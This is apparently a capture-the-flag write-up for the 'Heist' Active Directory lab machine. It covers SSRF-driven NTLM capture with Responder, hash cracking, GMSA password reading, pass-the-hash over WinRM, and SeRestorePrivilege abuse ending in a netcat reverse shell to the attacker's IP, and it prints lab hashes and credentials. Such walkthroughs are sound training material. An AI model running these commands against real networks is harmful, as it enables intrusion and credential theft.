


## Heist: Writeup

Nmap scan results:

```bash:

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-03-17 15:45:48Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: heist.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.heist.offsec
| Issuer: commonName=DC01.heist.offsec
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-01-22T09:39:55
| Not valid after:  2023-07-24T09:39:55
| MD5:   5e2b53ddeec1d4f2ceb0c654e0a8877b
| SHA-1: 641e3b0dbd19f83008c7ed22ca5f7cf0994e3afe
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQKEXmGstK96JDaLhavkEUsTANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmhlaXN0Lm9mZnNlYzAeFw0yMzAxMjIwOTM5NTVaFw0y
| MzA3MjQwOTM5NTVaMBwxGjAYBgNVBAMTEURDMDEuaGVpc3Qub2Zmc2VjMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAuSAwQhDRZ5YW34Gl0MwRTT3WOwmI
| +mPzPYJShMJ4SrJQKnf2y2hjuuecC+jbxrrmHuM4iup/QuCUM9yTi4UaAaQwnks8
| rPnQ6apaBBl6o87oBvCvMLhkm3utSJWEgduOuKydP4PgzOWXp2QOpu1OTUN/6NMP
| 4Awwn0ExbedLyGUzjUNVEMijh8uKHnt2nNCet2X7V/zXSCQBl5p7tPbhP2FskeyX
| 4tbjqo+S41mHEbkUZVfWw8Xc0diZuXu8tFQTBAantSpxqnjXyAYq85S4Us07oshK
| KHR/LeJB/W8rVv/YyR37YTh8DORHs6JqkKOydCuKLGPXQivK5vx4FrEqnQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBAJeUTeG8Kt0y+5j06g/EmfkXLgaUG6Unj42/1n5cu+SYdLRdnIK6
| FyIh7G+bVBCZNpaS/WuwevXp+twCNQSJVT615hK0tE3qz+9E3pJ+/4m6IWtQALsz
| 1Kc1jWDtsdQ44uu+rs5RtGyRbWPT+lGQqUyQ3vzSdejGytEIextYVjSdxZ4v0As+
| 7C1Vv2QhLMrycQhtsMzI75Okm12ZBc4BdXO4j+PFDjA7n9YVERDycu1N3PPUpfoc
| 6aErD+uvvUXtPrZrAV4hrvw8BUvv5rgYQ1jg+8boA1NDz1DEHZJAHo1BdRDpX0rV
| D+xgM3vuSz+xk8KUbWWn0Np3e+Qyt/CwC2w=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: HEIST
|   NetBIOS_Domain_Name: HEIST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: heist.offsec
|   DNS_Computer_Name: DC01.heist.offsec
|   DNS_Tree_Name: heist.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2023-03-17T15:46:37+00:00
|_ssl-date: 2023-03-17T15:47:17+00:00; -1s from scanner time.
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http          syn-ack Werkzeug httpd 2.0.1 (Python 3.9.0)
|_http-server-header: Werkzeug/2.0.1 Python/3.9.0
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Super Secure Web Browser
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Kerberos is running on port 88, which means we're likely dealing with a domain controller. Many other ports are familiar to an Active Directory setup, like LDAP, DNS, SMB, as well as many of the ports above 49000. The web service on port 8080 is something unusual, on the other hand. Port 3389 is open, which means that I could possible RDP into this machine at some point. Port 5985 is also open, which might allow me to winrm into this machine remotely, provided I have creds.

I'll take note of the domain name, `heist.offsec`, as well as this machine's hostname, `DC01.heist.offsec`. 

Fingerprint the OS with crackmapexec:
```bash
$ cme smb 192.168.164.165
SMB         192.168.164.165 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
```

I can't enumerate shares without creds and anonymous logins are not allowed:

```bash
$ cme smb 192.168.164.165 --shares
SMB         192.168.164.165 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.164.165 445    DC01             [-] Error enumerating shares: [Errno 32] Broken pipe

┌──(lemmy㉿d43d41us)-[~/hacking/boxes/pgp/heist]
└─$ cme smb 192.168.164.165 --shares -u lemmy -p lemmy
SMB         192.168.164.165 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.164.165 445    DC01             [-] heist.offsec\lemmy:lemmy STATUS_LOGON_FAILURE
```

Anonymous bind is not permitted to enumerate LDAP:

```bash
$ ldapsearch -LLL -x -H ldap://192.168.196.165 -b'' -s base '(objectclass=\*)'
Operations error (1)
Additional information: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v4563
```

Although I have no usernames, I can try to brute-force usernames with [Kerbrute](https://github.com/ropnop/kerbrute). I used several different wordlists, including those from [kerberos_enum_userlists](https://github.com/attackdebris/kerberos_enum_userlists/), but I end up only able to find the default Administrator user:

```bash
$ ~/hacking/tools/kerbrute userenum --dc 192.168.164.165 -d heist.offsec /usr/share/seclists/Usernames/top-usernames-shortlist.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 03/17/23 - Ronnie Flathers @ropnop

2023/03/17 12:15:38 >  Using KDC(s):
2023/03/17 12:15:38 >   192.168.164.165:88

2023/03/17 12:15:38 >  [+] VALID USERNAME:       administrator@heist.offsec
2023/03/17 12:15:38 >  Done! Tested 17 usernames (1 valid) in 0.095 seconds

```

I'll check out the web application on port 8080:


It's just asking for a URL. I can see this in the request if I capture it in Burpsuite:


If it tries to connect with itself or any other website outside the range of VPN, it gets an error indicating it can't connect to the internet:


On the other hand, if I host a webserver on my machine and provide my machine's IP, it will display the contents of the web root:


This type of vulnerability is called Server-side Request Forgery (SSRF). It occurs when one can point a target server to make an http request of the attacker's choosing. Windows connects to other machines using NTLM challenge response. What I can do is set up responder, listen in on my tun0 IP, and see who attempts to connect to it:

```bash
$ sudo responder -I tun0
[sudo] password for lemmy:
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0

  To support this project:
  Patreon -> https://www.patreon.com/PythonResponder
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [192.168.45.5]
    Responder IPv6             [fe80::5ab4:8a17:feb1:2536]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-QH8LYZR7C2U]
    Responder Domain Name      [QBYR.LOCAL]
    Responder DCE-RPC Port     [48606]

[+] Listening for events...

[HTTP] NTLMv2 Client   : 192.168.164.165
[HTTP] NTLMv2 Username : HEIST\enox
[HTTP] NTLMv2 Hash     : enox::HEIST:60fdd81d536c4105:4DD9C43B92819BAF8F1E8BA6FDC25A24:01010000000000005659AA5BEC58D901A1BADBB786549CE00000000002000800510042005900520001001E00570049004E002D005100480038004C0059005A00520037004300320055000400140051004200590052002E004C004F00430041004C0003003400570049004E002D005100480038004C0059005A00520037004300320055002E0051004200590052002E004C004F00430041004C000500140051004200590052002E004C004F00430041004C000800300030000000000000000000000000300000C856F6898BEE6992D132CC256AC1C2292F725D1C9CB0A2BB6F2EA6DD672384220A001000000000000000000000000000000000000900220048005400540050002F003100390032002E003100360038002E00340035002E0035000000000000000000
```

So, a user named enox tried to connect to my machine and this is his NTLMv2 hash. I'll try to crack it with `john`. It works:

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt enox.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
california       (enox)
1g 0:00:00:00 DONE (2023-03-17 12:21) 100.0g/s 204800p/s 204800c/s 204800C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Check these new creds against SMB:

```bash
$ cme smb 192.168.164.165 -u enox -p california
SMB         192.168.164.165 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.164.165 445    DC01             [+] heist.offsec\enox:california
```

They work. I'll list the shares, but none are interesting:

```bash
$ cme smb 192.168.164.165 -u enox -p california --shares
SMB         192.168.164.165 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.164.165 445    DC01             [+] heist.offsec\enox:california
SMB         192.168.164.165 445    DC01             [+] Enumerated shares
SMB         192.168.164.165 445    DC01             Share           Permissions     Remark
SMB         192.168.164.165 445    DC01             -----           -----------     ------
SMB         192.168.164.165 445    DC01             ADMIN$                          Remote Admin
SMB         192.168.164.165 445    DC01             C$                              Default share
SMB         192.168.164.165 445    DC01             IPC$            READ            Remote IPC
SMB         192.168.164.165 445    DC01             NETLOGON        READ            Logon server share
SMB         192.168.164.165 445    DC01             SYSVOL          READ            Logon server share
```

Now I'll see if these creds are good to winrm as enox. Indeed, they are:

```bash
$ cme winrm 192.168.164.165 -u enox -p california
SMB         192.168.164.165 5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:heist.offsec)
HTTP        192.168.164.165 5985   DC01             [*] http://192.168.164.165:5985/wsman
WINRM       192.168.164.165 5985   DC01             [+] heist.offsec\enox:california (Pwn3d!)
```

Winrm as enox and collect `local.txt`:

```bash
$ evil-winrm -i 192.168.164.165 -u enox -p california

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\enox\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\enox\Desktop> dir


    Directory: C:\Users\enox\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/20/2021   4:12 AM                application
-a----        3/17/2023   8:42 AM             34 local.txt
-a----        5/27/2021   7:03 AM            239 todo.txt


*Evil-WinRM* PS C:\Users\enox\Desktop> gc local.txt
8c73f2d78ae9bca6ccb12934b1cc42d0
```

Enumerate this user's privileges:

```bash
*Evil-WinRM* PS C:\Users\enox\Desktop> whoami /all

USER INFORMATION
----------------

User Name  SID
========== ============================================
heist\enox S-1-5-21-537427935-490066102-1511301751-1103


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
HEIST\Web Admins                            Group            S-1-5-21-537427935-490066102-1511301751-1104 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

This is a medium level user who is a member of `Web Admins`, though it isn't entirely clear yet what this means. There's a `todo.txt` file on his Desktop. Check it out:


```bash
*Evil-WinRM* PS C:\Users\enox\Desktop> type todo.txt
- Setup Flask Application for Secure Browser [DONE]
- Use group managed service account for apache [DONE]
- Migrate to apache
- Debug Flask Application [DONE]
- Remove Flask Application
- Submit IT Expenses file to admin. [DONE]
```

This indicates there is some relationship between enox and another user on this machine, the service account for apache svc_apache$ (The $ at the end of the username indicates that it is a machine account).

I'll run SharpHound to collect as much information I can to then display in Bloodhound. I transfer the binary onto the target and run this command:

```bash
*Evil-WinRM* PS C:\temp> .\SharpHound.exe --collectionmethods All --zipfilename bloodhound.zip
2023-03-17T09:58:02.7869492-07:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-03-17T09:58:02.9588318-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-03-17T09:58:02.9744453-07:00|INFORMATION|Initializing SharpHound at 9:58 AM on 3/17/2023
2023-03-17T09:58:03.1619457-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-03-17T09:58:03.6307200-07:00|INFORMATION|Beginning LDAP search for heist.offsec
2023-03-17T09:58:03.7244479-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-03-17T09:58:03.7244479-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-03-17T09:58:34.0369742-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2023-03-17T09:58:47.8494475-07:00|INFORMATION|Consumers finished, closing output channel
2023-03-17T09:58:47.8963216-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-03-17T09:58:48.0213256-07:00|INFORMATION|Status: 93 objects finished (+93 2.113636)/s -- Using 41 MB RAM
2023-03-17T09:58:48.0213256-07:00|INFORMATION|Enumeration finished in 00:00:44.3948554
2023-03-17T09:58:48.0838240-07:00|INFORMATION|Saving cache with stats: 52 ID to type mappings.
 52 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-03-17T09:58:48.0994554-07:00|INFORMATION|SharpHound Enumeration Completed at 9:58 AM on 3/17/2023! Happy Graphing!
```

I'm in an Evil-WinRM session, which brings with it a host of features, one of which is to easily download and upload files. What some people may not know is that downloading a file sometimes doesn't always work the same way you upload a file. If I want to upload a file, I can just use `upload <file>` and Evil-WinRM will look in the current directory it's running from, find the file, and upload it. With downloading a file, this doesn't always work the same way. If you try `download <windows_file>`, and `<windows_file>` is in your current working directory, you may not have any success downloading it. Specifying the absolute file path will solve the problem:

```bash
*Evil-WinRM* PS C:\temp> download C:\temp\20230317095847_bloodhound.zip
Info: Downloading C:\temp\20230317095847_bloodhound.zip to ./C:\temp\20230317095847_bloodhound.zip


Info: Download successful!
```

Running Bloodhound and uploading the zip file, I find the following relationship:


Enox is a member of `Web Admins` who can read the Group Managed Service Account (GMSA) password for the machine account `svc_apache$`. The GMSA password is an automatically generated security credential to permit cetain services to operate. If I can read this account's NTLM hash, I can then pass it and successfully pivot to this user and see what privileges the new user has.

Checking the 'Abuse Info' tab in Bloodhound, it recomends using [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader). I downloaded the repo and compiled the solution in another Windows VM, then transferred the binary to the target, then ran this command:

```bash
*Evil-WinRM* PS C:\t.\GMSAPasswordReader.exe --AccountName svc_apache$
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 2210EE26FFBF3180C711C16C82B9FB08
[*]       aes128_cts_hmac_sha1 : C2EB973B5CFF7FB477DDA0963B3CAF21
[*]       aes256_cts_hmac_sha1 : 1004B7B26458ED563D7BEC1B588A02CED6BBFD40A03B2C22219C54B1580C9629
[*]       des_cbc_md5          : CE89E558C1E36D61

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 03F4BB79C715487FCC2399404D6D8780
[*]       aes128_cts_hmac_sha1 : 0D22A17CC8E53B40993630EAB03C95AA
[*]       aes256_cts_hmac_sha1 : 37023E13E8A6D4803F6BB6639915924564EDEFCFC83FCF82CCB6762B872C71B7
[*]       des_cbc_md5          : 92F483EAEAD9B3C4
```

I'll test this password hash with crackmapexec and see if it works. It does:

```bash
$ cme smb 192.168.164.165 -u svc_apache$ -H 03F4BB79C715487FCC2399404D6D8780
SMB         192.168.164.165 445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:heist.offsec) (signing:True) (SMBv1:False)
SMB         192.168.164.165 445    DC01             [+] heist.offsec\svc_apache$:03F4BB79C715487FCC2399404D6D8780
```

I'll winrm as `svc_apache$`, passing the hash:

```bash
$ evil-winrm -i 192.168.164.165 -u svc_apache$ -H 03F4BB79C715487FCC2399404D6D8780

*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /all

USER INFORMATION
----------------

User Name         SID
================= ============================================
heist\svc_apache$ S-1-5-21-537427935-490066102-1511301751-1105


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                         Attributes
========================================== ================ =========================================== ==================================================
HEIST\Domain Computers                     Group            S-1-5-21-537427935-490066102-1511301751-515 Mandatory group, Enabled by default, Enabled group
Everyone                                   Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                 Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

The `SeRestorePrivilege` [privilege](https://learn.microsoft.com/en-us/windows-hardware/drivers/ifs/privileges):

> allows file content modification, even if the security descriptor on the file might not grant such access. This function can also be used to change the owner and protection.

In particular, it allows its user to change System files, like those in System32. Sometimes, this is coupled with the SeBackupPrivilege, in which case, you can use `diskshadow` to copy the registry, then use secretsdump to dump the hashes. However, here, it's granted in isolation. To enable this in my Powershell session, I can run [EnableSeRestorePrivilege.ps1](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1). Incidentally, it's already located on this machine, which is a huge hint on how to proceeed further. I'll run it:

```bash
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> gci


    Directory: C:\Users\svc_apache$\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2021   8:27 AM           3213 EnableSeRestorePrivilege.ps1


*Evil-WinRM* PS C:\Users\svc_apache$\Documents> .\EnableSeRestorePrivilege.ps1
Debug:
        using System;
        using System.Diagnostics;
        using System.Runtime.InteropServices;
        using System.Security.Principal;

        [StructLayout(LayoutKind.Sequential, Pack = 1)]
        public struct TokPriv1Luid
        {
                public int Count;
                public long Luid;
                public int Attr;
        }

        public static class Advapi32
        {
                [DllImport("advapi32.dll", SetLastError=true)]
                public static extern bool OpenProcessToken(
                        IntPtr ProcessHandle,
                        int DesiredAccess,
                        ref IntPtr TokenHandle);

                [DllImport("advapi32.dll", SetLastError=true)]
                public static extern bool LookupPrivilegeValue(
                        string lpSystemName,
                        string lpName,
                        ref long lpLuid);

                [DllImport("advapi32.dll", SetLastError = true)]
                public static extern bool AdjustTokenPrivileges(
                        IntPtr TokenHandle,
                        bool DisableAllPrivileges,
                        ref TokPriv1Luid NewState,
                        int BufferLength,
                        IntPtr PreviousState,
                        IntPtr ReturnLength);

        }

        public static class Kernel32
        {
                [DllImport("kernel32.dll")]
                public static extern uint GetLastError();
        }
Debug: Current process handle: 3112
Debug: Calling OpenProcessToken()
Debug: Token handle: 4380
Debug: Calling LookupPrivilegeValue for SeRestorePrivilege
Debug: SeRestorePrivilege LUID value: 18
Debug: Calling AdjustTokenPrivileges
Debug: GetLastError returned: 0
```

You can now see that I can edit file ownership in System32 files:

```bash
*Evil-WinRM* PS C:\Windows> icacls System32
System32 NT SERVICE\TrustedInstaller:(F)
         NT SERVICE\TrustedInstaller:(CI)(IO)(F)
         NT AUTHORITY\SYSTEM:(M)
         NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
         BUILTIN\Administrators:(M)
         BUILTIN\Administrators:(OI)(CI)(IO)(F)
         BUILTIN\Users:(RX)
         BUILTIN\Users:(OI)(CI)(IO)(GR,GE)
         CREATOR OWNER:(OI)(CI)(IO)(F)
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
         APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
```

There are two ways of using this privilege to privesc as System. Searching for `SeRestorePrivilege exploit`, I came accross xct's [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse) repo. I'll clone it and compile it in my Windows VM, then transfer it to the target. I'll also transfer a Windows netcat binary onto the machine as well. Setting up a netcat listener on my attacking machine, I'll execute this command to get a System level session:

```bash
*Evil-WinRM* PS C:\temp> .\SeRestoreAbuse.exe "\temp\nc.exe -e cmd 192.168.45.5 443"
RegCreateKeyExA result: 0
RegSetValueExA result: 0


$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.164.165] 50396
Microsoft Windows [Version 10.0.17763.2061]
